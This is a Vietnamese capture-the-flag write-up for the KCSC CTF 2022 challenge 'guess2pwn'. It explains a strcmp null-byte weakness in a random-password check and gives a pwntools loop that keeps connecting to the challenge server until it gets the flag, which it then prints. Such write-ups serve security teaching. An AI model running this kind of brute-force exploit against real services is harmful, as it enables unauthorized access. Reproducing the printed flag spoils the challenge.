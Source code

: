 # KCSC CTF 2022 - guess2pwn

Các bạn có thể tải chall ở repo của mình: [guess2pwn.zip](guess2pwn.zip)

# 1. Tìm lỗi

Decompile bằng ghidra, ta thấy hàm tạo mật khẩu như sau:

![passwd-generator.png](images/passwd-generator.png)

Với `urandom` là file được dùng để lấy các giá trị random khác nhau, không phụ thuộc vào seed. Vì thế mỗi khi lấy random, các giá trị lấy được sẽ khác nhau tuy lấy cùng trong 1 giây.

Vì thế việc lấy được password chính xác là bất khả thi. Tuy nhiên ở hàm `strcmp`, việc so sánh sẽ dừng lại chỉ khi nào gặp ký tự null byte `\x00` ở cả 2 chuỗi.

Đồng thời ở đây, việc lấy giá trị random có thể cho ta password với byte đầu tiên là null byte. Vì thế ta chỉ việc nhập input là 1 byte null và chạy liên tục tới khi nào ta lấy được flag.

# 2. Khai thác

Full code:

```python
from pwn import *

context.log_level = 'critical'
while True:
    p = remote('139.180.134.15', 7332)
    p.sendlineafter(b'password:', p8(0))
    data = p.recvall()
    if b'wrong' not in data:
        print(data)
        break
```

# 3. Lấy cờ

![get-flag.png](images/get-flag.png)

Flag là `KCSC{fb62e93cfcbd763db1f922c07cc5b5fd}`